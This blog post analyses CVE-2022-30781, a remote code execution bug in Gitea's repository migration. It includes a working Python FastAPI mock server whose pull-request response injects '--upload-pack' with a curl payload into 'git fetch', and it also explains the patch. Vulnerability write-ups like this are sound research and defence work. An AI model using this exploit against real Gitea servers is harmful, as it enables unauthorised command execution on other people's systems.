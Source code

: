 ```yaml
---
title: Analysis of CVE-2022–30781
published: true
date: "2025-04-10"
excerpt: "How Git Fetch Resulted in Critical Remote Code Execution in Gitea."
tags: ["Gitea", "RCE", "git", "research","cve"]
author: "MindPatch"
---
```

---

How Git Fetch Resulted in Critical Remote Code Execution in Gitea

![](https://miro.medium.com/v2/resize:fit:477/0*7XgQCsp0nd9dRoQo.png)


**Good Morning, Everyone!**

In today’s post, I’ll dive into an analysis of  **CVE-2022–30781**, a critical vulnerability found in the Gitea platform. This CVE allows attackers to execute remote code on the affected server, posing a significant security risk.

Here’s what we’ll cover:

1.  **Understanding How the CVE Works**
2.  **Writing Our Own Exploit**
3.  **How the Gitea Team Fixed It**

Let’s jump in and enjoy

## Import your Git repo here

in every git platform like gitea, it has a feature that allows you to import all your repo from another platform or different git server into your platform in single click which called  **Migration**

but beside .git repo it's also provides some other options to

-   pull requests
-   Wiki page
-   issues

![](https://miro.medium.com/v2/resize:fit:610/1*WbwcS7_bkRCKzFRpqfbAGQ.png)

and in order to extract these data gitea communicate with the chosen platform API in order to import this data

and in one of these options is migrate a repo from another gitea server, and by choosing this option you can notice in logs a few requests from gitea for these endpoints

![](https://miro.medium.com/v2/resize:fit:1000/1*L1GbLaJQJ5ci-rF6n69WCg.png)

and one of these endpoints returns the repo pull requests information including the pull request branch, and then gitea will fetch this branch using  `$ git fetch <remote> <branch>`

![](https://miro.medium.com/v2/resize:fit:1000/1*_NpVmALCvNOrfyiALbmzUA.png)

and as you can see, we cannot Espace using whitespace here in order to get that RCE

## Fetch options

The Fetch git subcommand has a few different options you can find here ([Git — git-fetch Documentation](https://git-scm.com/docs/git-fetch))

and the interesting one here is  **— upload-pack** option

> — upload-pack <upload-pack>
> 
> When given, and the repository to fetch from is handled by  **git fetch-pack**,  `--exec=<upload-pack>`  is passed to the command to specify non-default path for the command run on the other end.

So, Using this option lets us change the default path of the  `git-upload-pack`  tool. This can potentially lead to Remote Code Execution (RCE).

To exploit this, we could inject  `--upload-pack='CMD'`  into a branch name or a remote repository. However, Git itself doesn’t allow this directly. 😞

But as mentioned earlier, Gitea servers use APIs to fetch repository information. So, we can set up a mock server to return fake data. When the server asks for the pull request branch, we can include the  `--upload-pack`  option in the response and check if it gets executed

## Writing The Exploit

In writing the exploit process I always chose python as its the fastest and painless option for me, but you can pick what you like

lets go write our exploit, and this one requires us first to see what gitea api client expect the response so we make sure it gets parsed right

and this step can be done easily after analysing the gitea Swagger file, and after review it I came up with this simple API written in FastAPI


```python
from fastapi import APIRouter  
  
router = APIRouter(prefix="/api/v1")  
RCE_PAYLOAD = "curl ID.oast.fun"  
  
  
# Mock data for some endpoints  
MAX_RESPONSE_ITEMS = 50  
DEFAULT_PAGING_NUM = 30  
DEFAULT_GIT_TREES_PER_PAGE = 1000  
DEFAULT_MAX_BLOB_SIZE = 10485760  
full_uri = "http://localhost:3000/"  
  
@router.get("/version")  
async def get_version():  
    return {"version": "1.16.6"}  
  
@router.get("/settings/api")  
async def get_settings():  
    return {  
        "max_response_items": MAX_RESPONSE_ITEMS,  
        "default_paging_num": DEFAULT_PAGING_NUM,  
        "default_git_trees_per_page": DEFAULT_GIT_TREES_PER_PAGE,  
        "default_max_blob_size": DEFAULT_MAX_BLOB_SIZE,  
    }  
  
@router.get("/repos/{owner}/{repo}")  
async def get_repo_info(owner: str, repo: str):  
    """  
    Returns repository information for a given owner and repo.  
    """  
    return {  
        "clone_url": f"{full_uri}{owner}/{repo}",  
        "owner": {"login": owner},  
    }  
  
@router.get("/repos/{owner}/{repo}/topics")  
async def get_repo_topics(owner: str, repo: str):  
    return {"topics": []}  
  
@router.get("/repos/{owner}/{repo}/pulls")  
async def get_repo_pulls(owner: str, repo: str):  
    """  
    Returns pull requests for a given repository.  
    """  
    return [  
        {  
            "base": {"ref": "master"},  
            "head": {  
                "ref": f"--upload-pack={RCE_PAYLOAD}",  
                "repo": {  
                    "clone_url": "./",  
                    "owner": {"login": "master"},  
                },  
            },  
            "updated_at": "2001-01-01T05:00:00+01:00",  
            "user": {},  
        }  
    ]
```

As you can see in the pulls endpoint, I was able to inject the  `--upload-pack`  option into the  `ref`, which corresponds to the pull request's base branch.

Now, let’s test it. I ran the API, created a new migration in Gitea, and set the repository URL to  `myapi/test/test`. Additionally, I enabled the option to fetch pull requests, ensuring that it pulls the repository's pull requests during the migration process

And as you can See :)

[![VIDEO POC](https://img.youtube.com/vi/9KOjRB9IKSo/0.jpg)](https://www.youtube.com/watch?v=9KOjRB9IKSo)


In the background, the following command was executed:  
`$ git fetch origin --upload-pack='curl <host>'`

This caused Gitea to make the specified  `curl`  request, demonstrating that the RCE was successfully exploited as a proof of concept (PoC)

## Patching the bug

Gitea team fixed this bug by using  `--`, which forces Git to treat everything following it as a plain string rather than a parsable option, This effectively resolves the issue.

![](https://miro.medium.com/v2/resize:fit:1000/1*lreFlMwsoRz_970hBC3siA.png)

And that’s it! I hope you found this helpful.

You can access the testing lab and the exploit at:  
[latestpocs/CVE-2022–30781/gitea_poc at master · MindPatch/latestpocs](https://github.com/MindPatch/latestpocs)

Take care, and see you next time! 🙂